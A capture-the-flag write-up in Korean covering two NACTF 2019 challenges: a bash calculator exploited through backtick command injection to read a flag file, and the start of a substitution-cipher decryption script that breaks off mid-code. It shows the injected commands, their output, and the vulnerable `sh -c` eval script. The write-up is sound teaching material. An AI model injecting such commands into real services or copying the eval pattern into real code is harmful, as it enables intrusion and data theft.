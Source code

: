 # SHCALC
```
John's written a handy calculator app - in bash! Too bad it's not that secure...

Connect at nc shell.2019.nactf.com 31214
```
## solve
shcalc라는 이름 답게 쉘에서 실행되는 계산기인듯 하다. 이것저것 넣어보다가 백쿼터에서 에러가 발생했고, 이를 이용해서 `command injeciton`을 했다.
```bash
> `ls -al`
sh: 1: arithmetic expression: expecting EOF: "total 16
drwxr-xr-x 1 root root 4096 Sep 13 05:38 .
drwxr-xr-x 1 root root 4096 Sep 21 23:35 ..
-rwxrwxrwx 1 root root  125 Sep 13 05:38 calc.sh
-rw-r--r-- 1 root root   29 Sep 13 05:38 flag.txt"
> `cat calc.sh`
sh: 1: arithmetic expression: expecting primary: "#!/bin/sh

cat <<EOF
shcalc v1.1
EOF

echo -n '> '
while read input; do
        env -i sh -c "echo \$(($input))"
        echo -n '> '
done"
>
sh: 1: arithmetic expression: expecting primary: ""
> `cat flag.txt`
sh: 1: arithmetic expression: expecting EOF: "nactf{3v4l_1s_3v1l_dCf80yOo}"
>
```
## flag
`nactf{3v4l_1s_3v1l_dCf80yOo}`

# Hwang's Hidden Handiwork
```
Hwang was trying to hide secret photos from his parents. His mom found a text file with a secret string and an excel chart which she thinks could help you decrypt it. Can you help uncover Hwang's Handiwork?

Of course, the nobler of you may choose not to do this problem because you respect Hwang's privacy. That's ok, but you won't get the points.
```
## decrypt
txt 파일에 이상한 암호문이 적혀있었고, 추가로 encrypt 테이블로 보이는 csv 파일이 주어졌다. 아래 코드를 통해 복호화할 수 있었고, 그 결과로 URL을 얻어냈다.
```python
import csv


cipher = "SccLJ0ddkSGy=PP=kM8JMDmPCcMCcymPedh9_r_GwDtt.::/.1TS_Ba:uU9KNpzir:VcNEVK/PPDXCImKlqK8rqtfOAvisA2MIikfjEq1ReFNC/gi_bf5fbrOSxrODf"

f = open("substitution.csv")
f = csv.reader(f)
csv_data = [i[1:] for i in f]

plaintext = csv_data[0]
```